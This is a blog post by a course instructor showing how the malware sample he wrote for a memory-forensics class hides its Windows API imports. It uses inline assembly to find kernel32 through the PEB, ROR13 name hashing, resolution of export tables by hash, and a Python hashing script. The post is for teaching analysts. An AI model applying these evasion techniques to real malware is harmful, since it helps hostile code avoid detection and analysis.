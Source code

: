 ```yaml
---
layout: post
title: "Shellode Techniques in C++"
date: 2015-06-11
permalink: blog/shellcodeTechniquesCPP/
---
```


Recently I wrote a piece of malware for a [memory forensics course](http://www.tophertimzen.com/cs407/) I was teaching at Southern Oregon University. My intention was to write a sample that correlated with the back end of the courses, GUI artifacts, persistence the usage of IDA. I decided that I wanted to obfuscate the majority of Windows API calls I needed to use using shellcode tactics. An old colleague had introduced me to these techniques and I wanted to implement them again for my students as I had had already introduced them to shellcode techniques such as parsing the PEB and PE space to resolve functions, and wanted to give them a challenge. I utilized the technique of hashing function names with ROR13, extracting Kernel32's base address from the PEB and loading additional libraries with LoadLibraryA. 

Because I choose to write the malware in C++ performing inline assembly was easy. 

Firstly, I wrote three inline assembly functions that I could use throughout my malware to find the base address of kernel32, hashing a string, and resolve exports by enumerating the IMAGE_EXPORT_DIRECTORY in the PE header. 

{% highlight cpp %}

__declspec(naked)unsigned int FindKernel32()
{
	__asm{
		mov eax, fs:[0x30 ];    // get a pointer to the PEB
		mov eax, [eax + 0x0C];  // get PEB->Ldr
		mov eax, [eax + 0x14];  // get PEB->Ldr.InMemoryOrderModuleList.Flink
		mov eax, [eax];         // get the next entry (2nd entry)
		mov eax, [eax];         // get the next entry (3rd entry)
		mov eax, [eax + 0x10];  // get the 3rd entries base address (kernel32.dll)
		ret;
	};
}

{% endhighlight %}

Next I wrote a function to hash a string using a form of ROR13. 

{% highlight cpp %}

unsigned int __stdcall hashString(char* symbol)
{
	__asm 
	{
		mov esi, symbol;
		xor edi, edi;
		xor eax, eax;
		cld;
	continueHashing:
		lodsb;
		test al, al
		jz hash_done;
		ror edi, 0xd;
		add edi, eax;
		jmp  continueHashing;
	hash_done:
		mov eax, edi;
	};
}

{% endhighlight %}

Lastly I wrote in inline assembler the logic to parse through the PEB of a library once I had its base address to resolve the base address of a function while also utilizing the above hashing function. 

{% highlight cpp %}

unsigned int __stdcall findSymbolByHash(unsigned int dllBase, unsigned int symHash)
{
	__asm 
	{
		pushad;
		mov edi, symHash;
		mov ebp, dllBase;
		mov eax, [ebp + 0x3c];        //PEheader
		mov edx, [ebp + eax + 0x78];  //export table
		add edx, ebp;
		mov ecx, [edx + 0x18];        //numberOfNames
		mov ebx, [edx + 0x20];        //numberOfExports
		add ebx, ebp;
	search_loop:
		jecxz noHash;
		dec ecx;                      //decrement numberOfNames
		mov esi, [ebx + ecx * 4];     //get an export name
		add esi, ebp;
		push ecx; 
		push ebx;
		push edi;
		push esi;                     //setup stack frame and save clobber registers 
		call hashString;              
		pop edi;
		pop ebx;
		pop ecx;                      //restore clobber registers              
		cmp eax, edi;                 //check if hash matched  
		jnz search_loop;
		mov ebx, [edx + 0x24];        //get address of the ordinals
		add ebx, ebp;
		mov cx, [ebx + 2 * ecx];      //current ordinal number
		mov ebx, [edx + 0x1c];       //extract the address table offset
		add ebx, ebp;
		mov eax, [ebx + 4 * ecx];    //address of function 
		add eax, ebp;
		jmp done;
	noHash:
		mov eax, 1;
	done:
		mov[esp + 0x1c], eax;
		popad;
	};
}

{% endhighlight %}

From there, function pointers can be utilized to call Windows API functions. Because these functions will be obfuscated, new typedefs will need to be created that return and take in the correct Windows API types. 

For example, the Windows API call CreateMutexEx appears as follows

{% highlight batch %}

HANDLE WINAPI CreateMutexEx(
  _In_opt_ LPSECURITY_ATTRIBUTES lpMutexAttributes,
  _In_opt_ LPCTSTR               lpName,
  _In_     DWORD                 dwFlags,
  _In_     DWORD                 dwDesiredAccess
);

{% endhighlight %}

This function will be used to create a named Mutex to ensure the malware is only running one instance of itself on an infected machine. 

In order to implement this function obfuscated, the below typedef will be used

{% highlight cpp %}

typedef HANDLE(__stdcall *CreateMutex)(LPSECURITY_ATTRIBUTES, LPCTSTR, DWORD, DWORD);

{% endhighlight %}

Now that the function prototype is known the address of it must be resolved. To do this, the base address of Kernel32 must be discovered, the function hashed and the function resolved. 

To obtain the base address of Kenrel32 simply call FindKernel32(). 

{% highlight cpp %}

unsigned int kernel32BaseAddr = FindKernel32();

{% endhighlight %}

The ROR13 hash of a function, CreateMutexA, must also be resolved. To obtain a hash you can call the hashString() function or use the below python script 

{% highlight python %}

import time, sys

def ror( dword, bits ):
  return (( dword >> bits | dword << ( 32 - bits ) ) & 0xFFFFFFFF)

def hash(function, bits=13, print_hash=True ):
  function_hash = 0
  for c in str( function ):
    function_hash  = ror( function_hash, bits ) 
    function_hash  = (function_hash + ord(c))
  
  if print_hash:
    function_hash = function_hash & 0xFFFFFFFF
    print "[+] 0x%02X = %s" % ( function_hash, function )
  return function_hash
  

def main( argv=None ):
  if not argv:
    argv = sys.argv
  try:
    if len( argv ) != 2:
      print "Usage: ror13.py <function name>"
    else:
      print "[+] Ran on %s\n" % (  time.asctime( time.localtime() ) )
      hash( argv[1] )
  except Exception, e:
    print "[-] ", e
	
if __name__ == "__main__":
  main()

{% endhighlight %}

{% highlight batch %}

C:\Users\Topher>c:\bin\ror13.py CreateMutexExA
[+] Ran on Thu Jun 11 09:58:55 2015

[+] 0xBCE81294 = CreateMutexExA

{% endhighlight %}

In order to resolve this function by hash, a call to findSymbolByHash will be made with the address of kernel32 and the ror13 hash. 

{% highlight cpp %}

CreateMutex CreateMutex_Func = (CreateMutex)(findSymbolByHash(kernel32BaseAddr, 0xBCE81294));

{% endhighlight %}

CreateMutexExA can now be called 

{% highlight cpp %}

HANDLE created = MyCreateMutex(0, "IkFyZSB5b3UgaGF2aW5nIGZ1biB3aXRoIHRoaXMgbGFiPyIgDQo=", 0, MUTEX_ALL_ACCESS);

{% endhighlight %}

Any API call from Kernel32 can now be used in an obfuscated manner. Calls from other modules can also be used with a call to LoadLibraryA. 

Using the same methods above, the address of LoadLibraryA can be discovered at runtime. 

{% highlight cpp %}

typedef unsigned int(__stdcall *FunPtr_LoadLibrary)(LPCSTR);

unsigned int getLibrary(char *libraryName)
{
	FunPtr_LoadLibrary MyLoadLibraryA;
	MyLoadLibraryA = (FunPtr_LoadLibrary)(findSymbolByHash(kernel32BaseAddr, 0xEC0E4E8E));
	unsigned int baseAddr = MyLoadLibraryA(libraryName);
	return baseAddr;
}

{% endhighlight %}

Just call getLibrary() with the name of the module that needs to be loaded. 

{% highlight cpp %}

unsigned int user32BaseAddr = getLibrary("user32.dll");

{% endhighlight %}

Now calls can be made into findSymbolByHash with user32BaseAddr and a function hash from that module. 

As shown, utilizing shellcode techniques in C++ is relatively straight forward once the supporting functions are written. 